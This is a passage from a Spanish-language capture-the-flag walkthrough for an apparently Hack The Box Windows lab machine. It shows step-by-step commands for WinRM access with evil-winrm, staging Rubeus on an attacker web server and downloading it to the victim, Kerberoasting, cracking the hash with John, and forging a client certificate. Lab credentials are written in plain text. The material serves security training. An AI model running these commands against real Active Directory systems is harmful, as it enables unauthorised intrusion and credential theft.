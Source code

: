 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con Win-RM SSL {-}


```bash
mv /home/s4vitar/Downloads/certnew.cer .
evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

ya estamos a dentro de la maquina pero no podemos ver la flag. Como previsto aqui vamos a tener que convertirnos al usuar **MRKLY**.


### Kerberoasting attack con Rubeus {-}

1. Descargamos el rubeus.exe

    ```bash
    wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
    python -m http.server 80
    ```

1. Lo descargamos desde la maquina victima

    ```powershell
    cd C:\Windows\Temp
    mkdir BH
    cd BH
    iwr -uri http://10.10.16.3/Rubeus.exe -Outfile Rubeus.exe
    ```

1. Lanzamos el binario

    ```powershell
    C:\Windows\Temp\BH\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
    ```

Ya podemos ver el hash NTLM de version 2 del usuario **MRKLY**

### Crackeando el hash con John {-}

Copiamos el hash en un fichero y le lanzamos John

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt mrkly_hash
```

Aqui ya tenemos la contraseña del usuario. Aqui no vamos a poder connectarnos a la maquina victima con este usuario porque
tenemos que crear un nuevo certificado.

Entramos con firefox a la routa `/certsrv` con las credenciales del usuario MRKLY.

1. En la web le damos a `Request Certificate -> advanced certificate request`
1. Creamos un certificado (Private Key) en la maquina de atacante

    ```bash
    openssl req -newkey rsa:2048 -nodes -keyout mrkly.key -out mrkly.csr
    cat mrkly.csr | tr -d '\n' | xclip -sel clip
    ```

1. Colamos el contenido en la web y podemos descargar el DER encode certificate.

```bash
    mv /home/s4vitar/Downloads/certnew.cer .
    evil-winrm -S -c certnew.cer -k mrkly.key -i 10.10.10.103 -u 'mrkly' -p 'Football#7'
```

Ya podemos leer la Flag.
